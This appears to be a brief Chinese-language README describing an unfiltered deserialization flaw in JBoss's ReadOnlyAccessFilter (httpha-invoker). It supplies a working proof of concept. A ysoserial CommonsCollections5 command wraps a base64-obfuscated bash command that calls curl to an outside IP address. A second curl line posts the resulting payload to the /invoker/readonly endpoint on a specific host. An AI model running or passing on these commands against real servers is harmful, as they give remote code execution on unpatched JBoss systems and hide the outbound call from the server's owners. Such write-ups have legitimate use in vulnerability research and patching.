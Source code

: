 # README

`jboss\server\all\deploy\httpha-invoker.sar\invoker.war\WEB-INF\classes\org\jboss\invocation\http\servlet`下面的`ReadOnlyAccessFilter`这个过滤器：

![image-20220518121851993](README.assets/image-20220518121851993.png)

没有过滤就直接进行了反序列化，因此可以实现反序列化攻击。



```shell
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,Y3VybCBodHRwOi8vMTIxLjUuMTY5LjIyMzozOTg3Ng==}|{base64,-d}|{bash,-i}" > poc.ser

curl http://121.5.169.223:8080/invoker/readonly --data-binary @poc.ser
```


